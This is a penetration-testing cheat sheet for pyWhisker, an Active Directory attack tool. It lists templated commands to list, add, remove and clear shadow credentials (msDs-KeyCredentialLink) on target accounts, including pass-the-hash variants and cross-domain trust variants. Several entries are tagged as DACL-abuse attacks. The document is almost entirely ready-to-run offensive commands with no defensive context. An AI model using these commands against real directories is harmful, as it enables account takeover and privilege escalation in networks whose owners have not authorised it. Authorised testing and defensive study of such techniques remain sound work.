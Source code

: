 # pyWhisker

% dacl, shadow credentials, msDs-KeyCredentialLink
#plateform/linux #target/remote #cat/RECON 

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
DC must have its own certificate and keys (RB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP)
```



## list all current KeyCredentials ID and creation time (cred)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -p <password> --target <target_user> --action "list"
```


## list all current KeyCredentials ID and creation time (pth)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## get info on KeyCredential (pth)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## remove KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## clear KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## add KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```


# cross-domain - list all current KeyCredentials ID and creation time (cred) (TRUST)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -p <password> --target <target_user> --action "list"
```


## cross-domain - list all current KeyCredentials ID and creation time (pth)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## cross-domain - get info on KeyCredential (pth)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## cross-domain - remove KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## cross-domain - clear KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## cross-domain - add KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```

